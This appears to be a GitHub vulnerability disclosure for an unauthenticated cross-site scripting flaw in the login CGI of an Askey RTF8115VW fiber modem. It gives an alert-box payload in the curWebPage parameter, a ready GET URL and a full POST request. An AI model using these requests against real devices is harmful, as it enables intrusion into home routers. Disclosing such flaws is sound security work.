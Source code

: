INFO
----

    **UNAUTHENTICATED Cross-Site Scripting - Askey Internet Fiber Modem**

    Vendor: **Askey**
    Software Version: **BR_SV_g11.11_RTF_TEF001_V6.54_V014**
    Model: **RTF8115VW**
    Vulnerable Param: **curWebPage**
    Payload: ```";alert('xss')//```
    Not tested in other model/version.

    Via GET REQUEST
    ```
    At the login request we can issue a GET Request:
    http://x.x.x.x/cgi-bin/te_acceso_router.cgi?curWebPage=/settings-internet.asp";alert('xss')//&loginUsername=admin&loginPassword=admin

    The Username and Password param, don't need to be valid.
    ```

    ![Alt text](/xssget.jpg?raw=true "Optional Title")


    Via POST REQUEST
    ```
    1) Setup your Proxy (Burp / ZAP / whatever) to intercept the Login request
    2) Input the payload after the .asp page used by the curWebPage param
    3) Forward the Request
    ```

    The Final Request
    ```
    POST /cgi-bin/te_acceso_router.cgi HTTP/1.1
    Host: x.x.x.x
    Origin: http://x.x.x.x
    Cookie: _httpdSessionId_=ece9eb5b733f7cbc8198ce9b6ab995c2
    Upgrade-Insecure-Requests: 1
    Referer: http://x.x.x.x/login.asp
    Content-Type: application/x-www-form-urlencoded
    Accept: */*
    Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
    Connection: close
    Cache-Control: max-age=0
    Accept-Encoding: gzip, deflate
    Content-Length: 35

    curWebPage=%2Fsettings-firewall.asp+payload
     <!---curWebPage=%2Fsettings-firewall.asp";alert('xss')//--->
    ```

    ```